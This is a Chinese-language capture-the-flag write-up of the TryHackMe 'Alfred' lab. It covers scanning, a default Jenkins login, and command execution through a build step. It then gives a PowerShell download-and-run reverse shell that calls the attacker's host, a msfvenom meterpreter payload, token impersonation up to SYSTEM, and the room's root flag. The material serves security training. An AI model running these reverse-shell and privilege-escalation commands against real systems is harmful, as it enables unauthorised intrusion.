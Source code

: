 # Alfred Writeup
> URL : https://tryhackme.com/room/alfred

IP : 10.10.244.238

## Initial access
- `rustscan -a 10.10.244.238`
	- ![](https://i.imgur.com/mbVfrX4.png)
	- 80
	- 3389
	- 8080

- `nmap -A -p80,3389,8080 10.10.244.238`
	- ![](https://i.imgur.com/O4ife5c.png)
	- 發現 8080 的 Jenkins 是
		- Jetty 9.4.z-SNAPSHOT
		- 但找不到相關的 Exploit
- 80 port 首頁
	- ![](https://i.imgur.com/FiQgTSO.png)
	- 看起來沒什麼特別的東西QQ
	- `python3 dirsearch.py -u http://10.10.244.238/`
		- 掃了之後也沒啥東西
- 8080 port 登入頁面
	- ![](https://i.imgur.com/ZpPK5aV.png)
	- 發現會掃出一些404，但沒啥幫助
		- ![](https://i.imgur.com/GHAKXIx.png)

## 進入 Jenkins
- 看到官方的 hint 寫 `*****:*****`
	- 直接通靈猜 `admin:admin`
	- 就進去了 ......
	- 好無聊= =
- 透過 Deploy 的 build code 輸入指令
	- `whoami`
	- ![](https://i.imgur.com/c0NEr3A.png)
	- `systeminfo`
	- ![](https://i.imgur.com/auOcIUd.png)
		- ![](https://i.imgur.com/TCQzzJs.png)

- 準備 Windows Reverse Shell
	- 本機
		- `wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`
		- `nc -nvlp 7877`
	- 靶機
		- `powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.21.55:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.13.21.55 -Port 7877`
	- 就成功接上了
		- ![](https://i.imgur.com/UwVAt2v.png)
- 取得 uesr flag
	- ![](https://i.imgur.com/4luITJB.png)
- 使用 msfvenom 產 meterperter reverse shell
	- `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.21.55 LPORT=7879 -f exe -o meow.exe`
	- ![](https://i.imgur.com/aYt7UNF.png)

- 開啟 `msfconsole` 準備接收
	- `use exploit/multi/handler`
	- `set LHOST 10.13.21.55`
	- `set LPORT 7879`
	- `set PAYLOAD windows/meterpreter/reverse_tcp`
	- `show options` 確認參數是否正確
	-  ![](https://i.imgur.com/l9tJQ4T.png)
	- `run` 等待接收

- 下載並執行 meterpreter 的 shell
	- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.21.55:8000/meow.exe','meow.exe')"`
	- `Start-Process "meow.exe"`
- msf 接上了!
	- ![](https://i.imgur.com/OdnUd28.png)
- What is the final size of the exe payload that you generated?
	- ![](https://i.imgur.com/94o2f0D.png)
	- 73802
- meterperter
	- `getuid`
		- 回傳 `Alfred\bruce`
	- `load incognito`
	- `list_tokens -g`
		- ![](https://i.imgur.com/mhZvk5Z.png)
		- 發現可以利用 `BUILTIN\Administrators`
	- `impersonate_token "BUILTIN\Administrators"`
		- 成功!
		- ![](https://i.imgur.com/dPzyJX4.png)
		- 再次 `whoami`
			- ![](https://i.imgur.com/kwC11C5.png)
	- Migrate 到 system
		- `ps`
			- ![](https://i.imgur.com/YGSMxtS.png)
			- 準備寄生到 `services.exe`
		- `migrate 668`
			- ![](https://i.imgur.com/yiPSvrR.png)
			- 成功!
- 輸入 `shell`
	- `cd system`
	- `type root.txt`
	- 取得 root flag
		- `dff0f748678f280250f25a45b8046b4a`
